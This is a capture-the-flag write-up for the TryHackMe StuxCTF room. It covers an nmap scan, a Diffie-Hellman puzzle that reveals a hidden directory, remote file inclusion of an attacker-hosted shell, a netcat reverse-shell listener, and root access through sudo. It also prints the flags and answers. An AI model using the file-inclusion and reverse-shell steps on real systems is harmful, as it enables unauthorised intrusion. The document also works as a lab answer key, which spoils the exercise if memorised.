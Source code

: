 # StuxCTF

Crypto, serealization, priv scalation and more ...! 

[StuxCTF](https://tryhackme.com/room/stuxctf)

## Topic's

* Network Enumeration
* Web Poking
* Cryptography
  * AES
* Local File Inclusion
* Misconfigured Binaries

## Task 1 StuxCTF

Read user.txt and root.txt

```
kali@kali:~/CTFs/tryhackme/StuxCTF$ sudo nmap -A -sS -sC -sV -O 10.10.66.221
[sudo] password for kali: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-13 16:43 CEST
Nmap scan report for 10.10.66.221
Host is up (0.037s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e8:da:b7:0d:a7:a1:cc:8e:ac:4b:19:6d:25:2b:3e:77 (RSA)
|   256 c1:0c:5a:db:6c:d6:a3:15:96:85:21:e9:48:65:28:42 (ECDSA)
|_  256 0f:1a:6a:d1:bb:cb:a6:3e:bd:8f:99:8d:da:2f:30:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/StuxCTF/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Default Page
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/13%OT=22%CT=1%CU=41085%PV=Y%DS=2%DC=T%G=Y%TM=5F85BD
OS:37%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)EC
OS:N(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT      ADDRESS
1   36.03 ms 10.8.0.1
2   36.33 ms 10.10.66.221

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.30 seconds
```

[http://10.10.66.221/robots.txt](http://10.10.66.221/robots.txt)

```
# robots.txt generated by StuxCTF
# Diffie-Hellman
User-agent: *
Disallow: 
Disallow: /StuxCTF/
```

[http://10.10.66.221/StuxCTF/](http://10.10.66.221/StuxCTF/)

[view-source:http://10.10.66.221/](view-source:http://10.10.66.221/)

```
<html>
	<head>
		<title>Default Page</title>
	</head>
	<body>
		<!-- The secret directory is...
		p: 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251;
		g: 7;
		a: 330;
		b: 450;
		g^c: 6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617;
		-->
		is blank....
	</body>
</html>
```

p: `9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251`;
g: `7`;
a: `330`;
b: `450`;
g^c: `6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617`;

[http://10.10.66.221/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/](http://10.10.66.221/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/)

```html
<!DOCTYPE html>
    <head>
        <title>StuxCTF</title>
	<meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <link rel="stylesheet" href="assets/css/bootstrap.min.css" />
        <link rel="stylesheet" href="assets/css/style.css" />
    </head>
        <body>
        <nav class="navbar navbar-default navbar-fixed-top">
          <div class="container">
            <div class="navbar-header">
              <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
                <span class="sr-only">Toggle navigation</span>
              </button>
              <a class="navbar-brand" href="index.php">Home</a>
            </div>
          </div>
        </nav>
        <!-- hint: /?file= -->
        <div class="container">
            <div class="jumbotron">
				<center>
					<h1>Follow the white rabbit..</h1>
				</center>
            </div>
        </div>            
        <script src="assets/js/jquery-1.11.3.min.js"></script>
        <script src="assets/js/bootstrap.min.js"></script>
    </body>
</html>
```

`/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/?file=http://10.8.106.222:80/shell.txt`

`/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/n.php`

```
kali@kali:~/CTFs/tryhackme/StuxCTF$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.66.221] 35024
whoami
www-data
pwd
/var/www/html/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055
cd /home
ls
grecia
cd grecia
ls
user.txt
cat user.txt
0b6044b7807dd100b9e30f1bd09db53f
```

```
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: ALL
sudo su
whoami
root
cd /root
ls
root.txt
cat root.txt
0028454003b42601548df551b738976c
```

1. user.txt

`0b6044b7807dd100b9e30f1bd09db53f`

2. root.txt

`0028454003b42601548df551b738976c`

3. What is the hidden directory? HINT: `g ^ a mod p, g ^ b mod p, g ^ C mod p` first 128 characters ...

`/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055`

